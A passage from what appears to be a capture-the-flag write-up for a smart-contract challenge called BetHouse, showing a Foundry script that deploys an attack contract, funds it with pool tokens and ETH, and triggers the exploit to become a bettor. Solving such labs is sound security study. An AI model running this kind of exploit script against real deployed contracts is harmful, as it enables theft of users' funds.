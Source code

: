 Notice that we can transfer back the attacker's eth to EOA after `withdrawAll()` to save our eth.

`BetHouse.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {BetHouseAttack, IBetHouse, IPool, IPoolToken} from "../src/BetHouseAttack.sol";

contract BetHouseAttackScript is Script {
    address betHouseAddress = 0xXXXXXXXXXXX;
    IBetHouse betHouse = IBetHouse(betHouseAddress);
    IPool pool = IPool(betHouse.pool());
    IPoolToken poolToken = IPoolToken(pool.depositToken());

    function run() external {
        vm.startBroadcast();
        BetHouseAttack attackContract = new BetHouseAttack(betHouseAddress);

        bool success = poolToken.transfer(address(attackContract), 5);
        require(success, "transfer deposit tokens to attack contract failed");

        attackContract.attack{value: 0.001 ether}();
        require(betHouse.isBettor(msg.sender), "Attack failed");
        vm.stopBroadcast();
    }
}
```

Since our EOA (player) is not the attacker, we have to first transfer our `poolToken` to the attacker so that we can proceed. 